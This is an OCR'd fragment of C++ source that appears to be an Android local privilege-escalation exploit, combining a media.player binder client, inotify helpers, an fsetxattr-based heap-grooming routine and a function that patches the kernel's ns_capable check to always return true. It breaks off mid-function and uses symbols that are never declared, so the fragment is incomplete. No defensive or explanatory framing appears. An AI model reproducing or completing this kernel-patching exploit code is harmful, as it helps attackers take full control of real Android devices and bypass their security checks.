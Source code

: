 ```c

int watch_fd;
int watch_wd;

class MediaPlayerBase : public MediaPlayer
{
	public:
		MediaPlayerBase() {};
		~MediaPlayerBase() {};
		sp<IMediaPlayer>	creatMediaPlayer() 
		{
			sp<IMediaPlayerService> service(getMediaPlayer());
		        sp<IMediaPlayer> player(service->create(this, getAudioSessionId()));
			return player;
		}
};

sp<IMediaPlayerService> getMediaPlayer()
{
	sp<IServiceManager> sm = defaultServiceManager();
	String16 name = String16("media.player"); 
	sp<IBinder> service = sm->checkService(name);
	sp<IMediaPlayerService> mediaService = interface_cast<IMediaPlayerService>(service);

	return mediaService;

}

void begin_watch()
{
        watch_fd = inotify_init1(IN_NONBLOCK);
        if (watch_fd == -1) {
                printf("[-] inotify_init1 failed\n");
                return;
        }

        watch_wd = inotify_add_watch(watch_fd, "test_dir",
                                 IN_ALL_EVENTS);
        if (watch_wd == -1) {
                printf("[-] Cannot watch\n");
                return;
        }
}

void stop_watch()
{
	inotify_rm_watch(watch_fd, watch_wd);
	if (watch_fd != 1)
	{
		close(watch_fd);
	}
}

void heapGuard()
{
	fsetxattr(fd_guard_heap, "user.g", guardBuffer, 1000, 0);
}

void kernel_patch_ns_capable(unsigned long * addr) {
        unsigned int *p = (unsigned int *)addr;

        p[0] = 0xD2800020;//MOV x0,#1
        p[1] = 0xD65F03C0;//RET
```